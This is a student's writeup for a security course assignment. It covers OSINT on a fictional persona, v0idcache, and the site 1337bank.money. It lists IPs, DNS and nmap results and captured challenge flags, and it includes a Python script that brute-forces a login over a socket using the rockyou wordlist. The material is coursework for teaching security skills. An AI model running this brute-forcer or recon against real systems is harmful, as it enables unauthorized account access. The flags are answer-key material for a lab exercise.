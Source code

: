 # Writeup 2 - OSINT

Name: Tuan Le
Section: 0201

I pledge on my honor that I have not given or received any unauthorized assistance on this assignment or examniation.

Digital acknowledgement: Tuan Le

## Assignment Writeup

### Part 1 (45 pts)

1. v0idcache's real name is Elizabeth Moffet

2. Elizabeth is the banking CEO at 13/37th National Bank and the URL is 
1337bank.money, the ip is 142.93.136.81

3. Twitter @v0idcache - I used Intel Techniques to find Usersherlock. I then 
used Usersherlock to search for the username and found the Twitter account.
Reddit u/v0idcache - I just googled v0idcache

4. I used dnsdumpster to obtain 5 ips and used Shodan to find information for each
216.87.155.33 - United States, VeriSign Infrastructure & Operations
216.87.152.33 - United States, VeriSing Infrastrcuture & Operations
142.93.136.81 - New York, United States, Digital Ocean
162.255.118.61 - Los Angeles, United States, Namecheap
162.255.118.62 - Los Angeles, United States, Namecheap

5. The 2 distinct flags
CMSC389R-{h1dd3n_1n_plain_5ight} - Found by looking at page source
CMSC389R-{e@5y_p3@5y-s0urc3_l3ak} - Found by looking at page source and further
examining the source of authenticate, control searched for "password" and found
username and password.

6. I performed nmap -p 1-1000 and nmap -p 1000-2000 to get the following ports
PORT      STATE  SERVICE
22/tcp    open   ssh
80/tcp    open   http
1337/tcp  open   waste

7. Based on the port scanner on pentest-tools.com, the operating system is
Ubuntu Linux

8. I found 3 other flags
CMSC389R-{h1ding_fil3s_in_r0bots_L0L} - Found by running 1337bank.money/robots.txt
then I found "Disallow: / secret_directory. I then ran 1337bank.money/secret_directory
CMSC389R-{h0w_2_iNt0_DNS_r3c0Rd5} - Found by using dnsdumpster with 1337bank.money
CMSC389R-{0M3G4LUL_G3T_pWN3d_N00b} - Found by just googling v0idcache and finding a
reddit post 

### Part 2 (75 pts)

I used the python stub code provided and added to it. I had to implement python
socket I/O such as reading and printing.

My code:

# Tuan Le
# UID: 115260047
# CMSC 389R (0201)

import socket

# IP address
host = "142.93.136.81"

# Open port to connect to
port = 1337 

# Wordlist file: "/usr/share/wordlists/rockyou.txt"
wordlist = open("/usr/share/wordlists/rockyou.txt", "r")

def brute_force():
    
    # Sockets: https://docs.python.org/2/library/socket.html

    username = "v0idcache"   # Hint: use OSINT

    # Iterate through each password in the wordlist and reapeatedly attempt to
    # log into v0idcache's server
    for password in wordlist:

        # Establish socket connection
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((host, port))
        
        # Reading username prompt and sending username
        data = s.recv(1024)      # Receives 1024 bytes from IP/Port
        s.send("v0idcache\n")
        print(data + username)

        # Reading password prompt and sending password
        data = s.recv(1024)      # Receives 1024 bytes from IP/Port
        s.send(password)
        print(data + password)

    s.close()

if __name__ == '__main__':
    brute_force()

I found 2 flags
CMSC389R-{brut3_f0rce_m4ster} - Found the username to be v0idcache and the password
linkinpark. Once I gained access, I cd into home and cat flag.txt
CMSC389R-{YWX4H3d3Bz6dx9lG32Odv0JZh} - Once I had access, I cd into home then cd
files then I cat a file called AB4300.txt which I found within a chat between 
v0idcache and fl1inch on pastebin.
